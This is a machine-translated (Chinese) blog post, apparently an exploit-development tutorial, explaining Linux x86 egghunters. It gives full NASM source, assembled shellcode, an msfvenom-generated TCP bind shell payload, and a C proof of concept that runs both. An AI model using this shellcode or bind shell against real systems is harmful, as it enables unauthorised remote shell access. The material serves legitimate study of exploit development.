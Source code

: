 # Egghunter (Linux 实现)

> 原文：<https://infosecwriteups.com/expdev-egghunter-linux-implementation-49154ff4d225?source=collection_archive---------1----------------------->

# **egg hunter 是什么？**

就我个人而言，当我在学习 [OSCE 课程](https://www.offensive-security.com/offsec/retiring-ctp-intro-new-courses/)形式攻击安全时，我曾与 Egghunter 打过交道。Egghunter 本质上是一个分阶段的有效负载，由相对较短的外壳代码(大约 30+字节)组成。在第一个缓冲区空间有限的情况下，我们可以在那里实现 Egghunter 外壳代码，这将在进程内存中搜索更大的缓冲区空间，在那里我们放置带有最终反向/绑定外壳代码的签名(也称为“Egg”)。

下图是 Egghunter 工作方式的简化版:

![](img/492c472414979a374628e25d0bb4c6ec.png)

# **深度猎蛋者**

![](img/5ab8d5d977b2f6b044bcbd7e4ac3e5ee.png)

尽管我知道 Egghunter 是什么以及如何使用它，但我想更详细地了解它。所以我读了 Matt Miller 的[安全搜索进程虚拟地址空间](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)来了解更多关于 Egghunter 的知识。

以下是这篇文章的要点:

*   按照作者的说法，推荐使用 8 字节 egg，因为它可以提供足够的唯一性，可以很容易地选择它，而不会有任何高的冲突风险。

## **Linux Egghunter 实现**

*   在 Linux 实现中，有两种主要方法:

1) SIGSEGV 处理程序，用于捕获无效的内存地址解引用，并防止程序崩溃

2)使用 OS 系统调用接口来验证内核模式中的进程 VMAs。

*   在 Linux 实现中，SIGSEGV 处理程序技术有一个很大的缺点，就是大小问题。
*   在 Linux 实现中，当遇到无效的内存空间时，系统调用将返回`EFAULT`错误代码，这正是 Egghunter 需要的信息类型，因为它可以遍历进程的虚拟地址空间(VAS ),而不会使程序崩溃。

![](img/bc15597b5c91906f9ea192fe0b868e35.png)

## **Windows Egghunter 实现**

*   在 Windows 实现中，也有两种主要方法:

1) SEH(结构异常处理程序)

2)操作系统调用(IsBadReadPtr & NtDisplayString)

![](img/72df2e666e3fbd58803ba6c2b995a566.png)

## **Egghunter 外壳代码**

![](img/a0efd5b938b56f5567ba7b3789f5a69c.png)

出于演示的目的，我将使用 Linux 实现的`access()` syscall 版本来构建 Egghunter 有效负载。让我们创建下面的`egghunter.nasm`文件:

```
global _startsection .text_start:
        mov ebx, 0x50905090     **; 4 byte Egg (*Little-Endian)**
        xor ecx, ecx            **; Zero out ECX**
        mul ecx                 **; Zero out EAX and EDX**next_page:
        or dx, 0xfff            **; Set PAGE_SIZE 4095 (0x1000)**next_addr:
        inc edx                 **; Increment by 4095 (0x1000)**
        pushad                  **; Preserve all general purposes 
                                  register values onto the stack**
        lea ebx, [edx+4]        **; Checking if the address is** 
                                  **readable**
        mov al, 0x21            **; Set AL to syscall access() (0x21)**
        int 0x80                **; Soft-interrupt to execute the 
                                  syscall** cmp al, 0xf2            **; Check for EFAULT (Invalid memory 
                                  space)**
        popad                   **; Restore the preserved registers**
        jz next_page            **; EFAULT --> Invalid memory space 
                                  --> Next page** cmp [edx], ebx          **; Check for the address if it 
                                  contains egg**
        jnz next_addr           **; If not, go back to look for our 
                                  first egg** cmp [edx+4], ebx        **; Check for the address + 4** 
        jnz next_addr           **; If not, go back to look for our 
                                  second egg** jmp edx                 **; Both eggs are found --> JMP to 
                                  EDX --> Continue execution flow**
```

## **编译+绑定外壳代码(msfvenom)**

我创建了一个简单的编译器 [compilerX86.py](https://github.com/bigb0sss/ASM_Learning/blob/master/compilerX86.py) 。

```
# python compilerX86.py -f egghunter[+] Assemble: egghunter.nasm
[+] Linking: egghunter.o
**[+] Shellcode: “\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2”**
[+] Creating File: shellcode.c
[+] Compiling Executable: shellcode
[+] Enjoy!
```

此外，使用 msfvenom，让我们创建一个绑定外壳:

```
# msfvenom -p linux/x86/shell_bind_tcp LPORT=9001 -f c[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 78 bytes
Final size of c file: 354 bytes
**unsigned char buf[] =
“\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80”
“\x5b\x5e\x52\x68\x02\x00\x23\x29\x6a\x10\x51\x50\x89\xe1\x6a”
“\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0”
“\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f”
“\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0”
“\x0b\xcd\x80”;**
```

## **最后一击**

最后，让我们结合这些 bind shellcode 和 egghunter 来创建以下漏洞脚本`egghunter.c`:

```
#include <stdio.h>unsigned char egghunter[] = \
"\xbb\x90\x50\x90\x50\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42"
"\x60\x8d\x5a\x04\xb0\x21\xcd\x80\x3c\xf2\x61\x74\xed\x39\x1a"
"\x75\xee\x39\x5a\x04\x75\xe9\xff\xe2";unsigned char shellcode[] = \
"\x90\x50\x90\x50\x90\x50\x90\x50"  // Egg
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x23\x29\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";void main() {
    int (*ret)() = (int(*)())egghunter;
    ret(); return 0;
}
```

通过用`gcc`编译上述脚本，我们可以成功创建一个概念验证 Egghunter 程序。它首先执行 Egghunter，一旦找到鸡蛋，它接下来执行 bind shell:

![](img/6bfdc033c06340c6a4e2c329945bd568.png)

我写了下面的博客，我用 Egghunter 创建了现实生活中的漏洞:

*   [https://bigb0ss . medium . com/expdev-winamp-5-12-exploitation-using-egg hunter-b 12383 f7a 449](https://bigb0ss.medium.com/expdev-winamp-5-12-exploitation-using-egghunter-b12383f7a449)
*   [https://medium . com/bugbountywriteup/exp dev-vulnserver-part-3-24859 BD 31 c0a](https://medium.com/bugbountywriteup/expdev-vulnserver-part-3-24859bd31c0a)
*   [https://bigb0ss . medium . com/exp dev-HP-openview-nnm-7-5-exploitation-seh-egg hunter-b 25 ea 5 fab 43 f？source=search_popover -](https://bigb0ss.medium.com/expdev-hp-openview-nnm-7-5-exploitation-seh-egghunter-b25ea5fab43f?source=search_popover-------------------------------------)

感谢阅读！